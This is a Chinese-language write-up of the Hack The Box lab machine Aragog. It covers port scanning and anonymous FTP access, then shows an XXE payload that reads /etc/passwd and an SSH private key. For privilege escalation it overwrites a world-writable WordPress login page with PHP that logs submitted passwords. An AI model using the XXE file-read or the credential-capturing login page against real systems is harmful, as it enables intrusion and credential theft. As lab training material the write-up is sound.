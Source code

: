 # 信息搜集

## Nmap

```
root@kali# nmap --min-rate 10000 -p- -Pn 10.10.10.78 -oA scans/ports
...
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
...
root@kali# nmap -sT -sC -sV -O -p21,22,80 10.10.10.78 -oA scans/details
...
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-r--r--r--    1 ftp      ftp            86 Dec 21 16:30 test.txt
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:10.10.14.157
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 ad:21:fb:50:16:d4:93:dc:b7:29:1f:4c:c2:61:16:48 (RSA)
|   256 2c:94:00:3c:57:2f:c2:49:77:24:aa:22:6a:43:7d:b1 (ECDSA)
|_  256 9a:ff:8b:e4:0e:98:70:52:29:68:0e:cc:a0:7d:5c:1f (EdDSA)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
...
```

## 目录FUZZ

```
root@kali# gobuster -u http://10.10.10.78 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt
=====================================================
/index.html (Status: 200)
/hosts.php (Status: 200)
=====================================================
```

## WEB页面

### http://10.10.10.78/hosts.php

![截图](d65dcfcfcdb0b177bde5f5180b59758c.png)

我们需要弄清楚如何与它交互。

# 漏洞检测与利用

## port 21: ftp

有匿名登录到 ftp 服务

```
root@kali# ftp Anonymous@10.10.10.78 
Connected to 10.10.10.78.
220 (vsFTPd 3.0.3)
Name (10.10.10.78:root): ftp
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-r--r--r--    1 ftp      ftp            86 Dec 21 16:30 test.txt
226 Directory send OK.
ftp> get test.txt
local: test.txt remote: test.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for test.txt (86 bytes).
226 Transfer complete.
86 bytes received in 0.01 secs (16.0092 kB/s)
```

test.txt:

```
<details>
    <subnet_mask>255.255.255.192</subnet_mask>
    <test></test>
</details>
```

## XXE	

我恍然大悟，xml文件可以用于这个网站，burpsuite抓取包，结合之前test.php的xml，重新发包。

![截图](d15bd3812e34c205da0b4625753e30c9.png)

根据上面显示，增加xxe攻击代码，构造语句，得出下面测试代码

```
<?xml version="1.0" ?>
<!DOCTYPE  XXE [<!ENTITY test SYSTEM "file:///etc/passwd"> ]>
<details>
    <subnet_mask>&test;</subnet_mask>
    <test></test>
</details>
```

![截图](0a04b5b72fa106fdb50b4b5b9c84972d.png)

回显中这一条信息 florian:x:1000:1000:florian,,,:/home/florian:/bin/bash 在home目录下用户是florian 打印该用户标志

![截图](e1752b95548215116b08a7af0b77ad8f.png)

读取靶机的id_rsa信息，获得密匙，ssh登录

![截图](ecc88f902e191e3b5b072e9949583dc6.png)

将得到的密钥复制到本地给权限600然后ssh登录到目标靶机

![截图](da1cc214f2f42c6a1eaafaccff4f9fa7.png)

# 提权

查看目标靶机的系统内核和所使用的操作系统

![截图](bb84da8fd6dc7be3c3c0e1fd6235462d.png)

确认系统架构之后开始监控下系统进程运行的情况，这里使用pspy这个款工具

> https://github.com/DominicBreuker/pspy
> 
> pspy是一个命令行工具，它可以在没有Root权限的情况下，监控Linux进程。黑客可以利用它来查看其他用户的计划任务工作(cron job)等，该工具也非常适合技术人员在CTF（Capture The Flag）中枚举Linux系统，同样该工具也会很好地向我们展示为什么在命令行上将密码作为参数传递是一个不好的选择。
> 
> 该工具会收集来自procfs扫描的信息，放置在文件系统选定部分的Inotify观察器会触发这些扫描功能以捕获Linux进程信息。

![截图](6399e835dd241736a985a1e7eb30f4db.png)

确认每分钟都有计划任务在执行目标靶机的登录功能，查看下网站根目录发现存在dev_wiki这个目录。

```
florian@aragog:~$ cd /var/
florian@aragog:/var$ ls
backups  crash  lib    lock  mail     opt  snap   tmp
cache    ftp    local  log   metrics  run  spool  www
florian@aragog:/var$ cd www
florian@aragog:/var/www$ ls
html
florian@aragog:/var/www$ cd html
florian@aragog:/var/www/html$ ls
dev_wiki  hosts.php  index.html  zz_backup
florian@aragog:/var/www/html$ cd dev_wiki/
florian@aragog:/var/www/html/dev_wiki$ ls
index.php        wp-blog-header.php    wp-includes        wp-settings.php
license.txt      wp-comments-post.php  wp-links-opml.php  wp-signup.php
readme.html      wp-config.php         wp-load.php        wp-trackback.php
wp-activate.php  wp-content            wp-login.php       xmlrpc.php
wp-admin         wp-cron.php           wp-mail.php
```

在这里发现wordpress框架文件 访问http://10.10.10.78/dev_wiki/index.php 网页不正常，而且10.10.10.78并没有进行域名解析 重定向将aragog添加到/etc/hosts 文件中， 在自己的命令端执行。

```
root@kali# echo '10.10.10.78 aragog'  >> /etc/hosts
```

直接修改上述计划任务执行的wp-login.php文件，因为目录dev_wiki是777权限，所有人都可以进行修改，修改成如下代码

```
<?php
file_put_contents("bmfx.log", print_r($_POST, true));
?>
```

最终得到密码

![截图](5d36a80729215139fd1dbd03d1097cf4.png)

使用su直接切换至root用户

![截图](8d907ee452362e85f6564fecd5d4df55.png)